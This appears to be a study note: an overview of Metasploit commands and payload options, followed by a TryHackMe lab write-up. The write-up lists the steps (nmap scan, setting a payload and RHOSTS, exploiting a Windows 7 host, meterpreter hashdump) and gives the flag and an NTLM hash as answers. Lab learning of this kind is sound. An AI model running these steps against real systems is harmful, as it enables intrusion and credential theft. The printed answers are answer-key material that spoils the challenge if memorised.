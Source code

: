 # Metasploit and Its Exploitation Framework 

## Introduction: 
Metasploit is a framework used for exploiting vulnerabilities in systems. This document outlines its capabilities, especially related to the various types of exploits and payloads available within the Metasploit framework. 

## Key Points: 

1. Metasploit Version Details: 

• Current version: metasploit v5. 0. 101-dev. 

• Available modules: 

• 2048 exploits 

• 1105 auxiliary 

• 344 post-exploitation modules 

• 562 payloads 

• 45 encoders 

• 10 NOPs 

• 7 evasion modules. 

2. Commands: 

• To search for exploits: use the `search` command. 

• To get more details about an exploit: use the `info` command. 

• To launch an exploit: use the `exploit` command. 

3. Understanding the Target: 

• Success depends on knowing the services running on the target system. 

• Most exploits come with default payloads, but you can see other options using the `show payloads` command. 

4. Available Payloads:

• A selection of compatible payloads includes: 

• Generic custom payloads 

• Several types of command shells (bind and reverse TCP) 

• Windows-specific commands like `windows/x64/exec` and `windows/x64/meterpreter` variants. 

5. Payload Configuration: 

• Use `set payload ` to choose a payload. 

• After setting the payload, use `show options` to configure necessary parameters for the exploit, which include settings for the target host and port. 

6. Payload Options: 

• For each payload, options such as `LHOST` and `LPORT` must be set according to the network environment. 

7. Executing the Exploit: 

• Once the parameters are configured, running the exploit command will launch the attack: 

• Successful connections and exploit actions are reported with specific outputs detailing vulnerabilities and established connections. 

8. Sessions Management: 

• A session can be opened upon a successful exploit, which can be backgrounded or aborted. 

• Using `sessions` command lists active sessions and allows for interaction or management of these sessions. 

9. Interacting with Sessions: 

• The command `sessions -i ` allows interaction with a specific session. 

• Multiple options are available for managing sessions, including listing, terminating, and upgrading sessions. 

## Conclusion: 
Metasploit is a powerful tool for penetration testing and security assessments. By understanding its commands and functionalities, users can effectively exploit vulnerabilities in target systems and manage their sessions to perform further operations.

# Try Hack Me Write Up

So this time we have a good CTF challenge where we need to scan, find a  vulnerability and exploit it using metasploit framework. If we succeed we find the flag. 

- Q: What is the content of the flag.txt file?

- A:

Segment:
 - Used nmap -sV -sC -A MACHINE_IP -vv > scan.txt
 - Host is running old windows 7 OS. 
 - msfconsole
 - show payloads
 - set payload 2
 - show options
 - set RHOSTS MACHINE_IP
 - exploit
 - once iN, we need to go to users/jon/documents
 - cat flag.txt
 - THM-5455554845

- Q: What is the NTLM hash of the password of the user "pirate"?

- A:
Segment:
  - Still on the meterpreter
  - hashdump
  - 8ce9a3ebd1647fcc5e04025019f4b875
  